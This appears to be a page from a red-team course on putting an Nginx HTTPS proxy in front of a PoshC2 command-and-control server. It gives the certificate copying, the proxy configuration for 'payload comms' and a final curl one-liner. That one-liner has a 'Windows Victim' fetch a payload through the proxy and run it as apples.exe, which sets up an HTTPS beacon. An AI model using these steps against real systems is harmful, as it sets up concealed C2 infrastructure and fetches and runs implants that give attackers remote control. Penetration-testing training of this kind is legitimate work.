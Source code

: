 # How to Setup SSL in Nginx

1. First if your poshc2 is still running on port `80` we need to start a new project with using `443`
2. Now lets add our Poshc2 ssl certs from our project folder to nginx
    ```bash
    scp {posh.crt,posh.key} username@<ubuntu-proxy-ip>:.
    ```
    > **NOTE:** This command will scp both files to the users `home` folder
3. Now lets move our ssl certs from our home directory to `/etc/nginx/`
    ```bash 
    mv {posh.crt,posh.key} /etc/nginx/.
    ```
    > **NOTE:** Make sure you are in your users home folder `/home/<username>
4. Then lets move over to our ubuntu server and edit our `/etc/nginx/conf.d/lp_proxy.conf` and add our SSL rules underneath our rules for port 80 comms
    ```
    server {
        listen 443;
        #443 is for payload comms
        server_name <IP of Proxy Server>;

        ssl_certificate /etc/nginx/posh.crt;
        ssl_certificate_key /etc/nginx/posh.key;
        ssl on;

        location / {
            proxy_pass https://<posh-server IP>:<Posh bind port>;
        }
    }
    ```

5. Now reload nginx
    ```
    systemctl restart nginx.service
    ```
6. On our Windows Victim, lets download our hosted payload through our proxy using `curl`
    ```bash
    curl -k https://<posh or proxy IP>/<poshc2-uri> -o apples.exe && .\apples.exe
    ```
7. Boom you now have a HTTPS beacon. 

## [Return to course page](README.md)